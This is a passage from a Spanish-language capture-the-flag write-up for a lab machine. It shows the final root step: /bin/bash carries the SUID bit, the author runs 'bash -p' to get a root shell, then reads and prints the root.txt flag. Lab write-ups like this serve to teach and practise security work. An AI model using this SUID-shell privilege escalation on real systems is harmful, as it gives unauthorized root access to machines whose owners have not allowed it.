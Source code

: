 ```bash
pericles@time:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Feb 25  2020 /bin/bash
pericles@time:/dev/shm$ 
```

## root.txt

Ahora nos convertirnos en `root` y vemos la flag

```bash
pericles@time:/dev/shm$ bash -p
bash-5.0# whoami
root
bash-5.0# pwd
/dev/shm
bash-5.0# cd /root
bash-5.0# cat root.txt 
321fd7046f50c42267c5059ec12473c8
bash-5.0# 
```
